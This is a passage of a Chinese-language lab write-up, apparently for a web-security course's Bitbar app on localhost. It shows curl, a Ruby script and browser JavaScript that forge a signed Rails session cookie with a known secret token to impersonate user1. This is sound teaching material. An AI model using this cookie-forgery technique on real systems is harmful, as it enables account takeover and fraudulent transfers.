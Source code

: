 
修改 cookie 中的 username 字段为 user1，bitbars 为 200，然后重新写入 cookie。

在浏览器中执行上面的 js 代码：

![image-20220504192942705](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220504192942705.png)

刷新页面发现账户变为 user1。可以进行正常的转账操作：

![image-20220504193035924](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220504193035924.png)

![image-20220504193055717](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220504193055717.png)

**spring 2017 版**

目标是运行 a.sh 后，生成可以在浏览器 console 中运行的命令，使得当前用户变为 user1。

```shell
curl -s -o /dev/null -c cookie.txt -d "username=attacker&password=attacker" "http://localhost:3000/post_login"
cookie=`cat cookie.txt | grep bitbar | cut -f 7`
ruby shc.rb $cookie
```

首先使用 curl 模拟表单登录，获取 cookie 后传给 shc.rb 完成解析工作

```ruby
require 'openssl'
require 'cgi'
require 'base64'

if ARGV.length < 1
        puts "too few arguments"
        exit
end

cookie = CGI::unescape(ARGV[0])

data, digest = cookie.split('--')
secret_token = "0a5bfbbb62856b9781baa6160ecfd00b359d3ee3752384c2f47ceb45eada62f24ee1cbb6e7b0ae3095f70b0a302a2d2ba9aadf7bc686a49c8bac27464f9acb08"
raise 'invalid message' unless digest == OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret_token, data)
message = Base64.strict_decode64(data)
cookie_dict =  Marshal.load(message)
cookie_dict["logged_in_id"] = 1
message = Base64.strict_encode64(Marshal.dump(cookie_dict))
digest_new = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret_token, message)
cookie_new = message + '--' + digest_new
puts "document.cookie=\"_bitbar_session=#{cookie_new}\""
```

shc.rb 中，首先解析 cookie 的内容，然后修改 logged_in_id 为 user1 的 id = 1，然后经过 Marshal 字符流转换，base64 编码，SHA1 签名后形成最终的命令。

```shell
document.cookie="_bitbar_session=BAh7CEkiD3Nlc3Npb25faWQGOgZFVEkiJTdjYTYyZTI0MjUyNDRhNDMzZThkY2Q5OTliZTdlN2UyBjsAVEkiCnRva2VuBjsARkkiG0NVQTlOQ3VTdEcwWm9vcUdKR2lzVGcGOwBGSSIRbG9nZ2VkX2luX2lkBjsARmkG--af3cbc206a2647443863e68ccc6b58424d61b3b9"
```
